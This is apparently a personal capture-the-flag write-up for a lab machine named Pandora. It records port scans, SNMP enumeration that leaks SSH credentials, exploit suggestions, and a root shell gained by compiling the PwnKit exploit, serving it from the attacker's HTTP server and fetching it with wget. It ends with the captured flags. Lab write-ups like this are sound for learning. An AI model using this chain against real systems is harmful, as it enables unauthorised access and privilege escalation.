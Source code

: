 INFO::
IP:10.10.11.136
OS: Linux

##**Enumeration::**## see ![wappa](Screenshots/pandora_wappa.png)
nmap -A -T4 <ip>::
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landin
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

-sU::
PORT    STATE SERVICE VERSION
161/udp open  snmp    SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: pandora

dirb http://pandora.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt ::
+ /assets/, /index.html, /server-status:: no permissions

`snmp-check 10.10.11.136 > pandora.snmp.txt`::
839 runnable sh /bin/sh -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'


##**SSH**##
daniel:HotelBabylon23
home/matt/user.txt :: no permissions

cronjob:: looks promising
17 * * * *   root  cd / && run-parts --report /etc/cron.hourly
/etc/cron.d/e2scrub_all

##**scripts in dir::**##
les.sh::
[+] [CVE-2021-4034] PwnKit Hmmmmm
[+] [CVE-2021-3156] sudo Baron Samedit
[+] [CVE-2021-3156] sudo Baron Samedit 2
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

./chisel server/client
https://github.com/jpillora/chisel

##**User && root**##
[pwnkit.c](https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.c)
```
/opt/transfers:$ gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
python3 -m http.server 8888
victim /tmp: wget http:<attack-ip>/pwnkit pwnkit
chmod +x pwnkit
./pwnkit
whoami: root see 
```
![pwnkit](Screenshots/pandora_pwnkit_root.png)
home/matt/user.txt: 69940d7dca02b9c2700460bcf337ec28
/root/root.txt: cd7e46b9980875b196543e8dd0566a5b


